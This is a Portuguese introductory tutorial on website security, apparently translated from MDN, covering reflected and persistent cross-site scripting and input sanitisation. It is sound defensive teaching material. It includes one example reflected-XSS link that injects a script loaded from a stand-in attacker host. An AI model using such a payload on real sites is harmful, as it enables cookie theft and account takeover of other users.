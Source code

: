 > **Nota:** Este é um tópico introdutório projetado para ajudá-lo a começar a pensar na segurança do site, mas não é exaustivo.

## Ameaças à segurança do site

Esta seção lista apenas algumas das ameaças mais comuns do site e como elas são mitigadas. Enquanto você lê, observe como as ameaças são mais bem-sucedidas quando a aplicação web confia ou _não é paranóico o suficiente_ sobre os dados provenientes do navegador.

### Cross-Site Scripting (XSS)

XSS é um termo usado para descrever uma classe de ataques que permitem que um invasor injete scripts do lado do cliente _através_ do site nos navegadores de outros usuários. Como o código injetado chega ao navegador a partir do site, o código é _confiável_ e pode fazer coisas como enviar o cookie de autorização do site do usuário ao invasor. Quando o invasor possui o cookie, ele pode fazer login em um site como se fosse o usuário e fazer tudo que o usário pode, como acessar os detalhes do cartão de crédito, ver detalhes do contato ou alterar senhas.

> **Nota:** As vulnerabilidades XSS têm sido historicamente mais comuns do que qualquer outro tipo de ameaça à segurança.

As vulnerabilidades do XSS são divididas em _refletidas_ e _persistentes_, de acordo como o site retorna os scripts injetados para um navegador.

- Uma vulnerabilidade XSS _refletida_ ocorre quando o conteúdo do usuário passado para o servidor é retornado _imediatamente_ e _não é modificado_ para exibição no navegador. Quaisquer scripts no conteúdo original do usuário serão executados quando a nova página for carregada. Por exemplo, considere uma função de pesquisa no site em que os termos de pesquisa são codificados como parâmetros de URL e esses termos são exibidos junto com os resultados. Um invasor pode construir um link de pesquisa que contenha um script malicioso como parâmetro (por exemplo, `http://sitedecompra.com?q=produto<script%20src="http://sitedomal.com/trapaca.js">`) e enviar por e-mail para outro usuário. Se o usuário alvo clicar nesse "link interessante", o script será executado quando os resultados da pesquisa forem exibidos. Conforme discutido anteriormente, isso fornece ao invasor todas as informações necessárias para entrar no site como usuário alvo, potencialmente fazendo compras como o usuário ou compartilhando suas informações de contato.
- Uma vulnerabilidade _persistente_ do XSS ocorre quando o script mal-intencionado é armazenado no site e posteriormente exibido novamente sem modificação para que outros usuários executem sem querer. Por exemplo, um quadro de discussão que aceita comentários que contêm HTML não modificado pode armazenar um script mal-intencionado de um invasor. Quando os comentários são exibidos, o script é executado e pode enviar ao invasor as informações necessárias para acessar a conta do usuário. Esse tipo de ataque é extremamente popular e poderoso, porque o invasor pode até não ter nenhum envolvimento direto com as vítimas.

Embora os dados das solicitações `POST` ou `GET` sejam a fonte mais comum de vulnerabilidades XSS, qualquer dado do navegador é potencialmente vulnerável, como dados de cookies renderizados pelo navegador ou arquivos de usuário que são carregados e exibidos.

A melhor defesa contra as vulnerabilidades do XSS é remover ou desativar qualquer marcação que possa conter instruções para executar o código. Para HTML, isso inclui elementos, como `<script>`, `<object>`, `<embed>` e `<link>` .

O processo de modificação de dados do usuário para que não possa ser usado para executar scripts ou afetar a execução do código do servidor é conhecido como limpeza de entrada. Muitas estruturas da Web limpam automaticamente a entrada do usuário de formulários HTML por padrão.

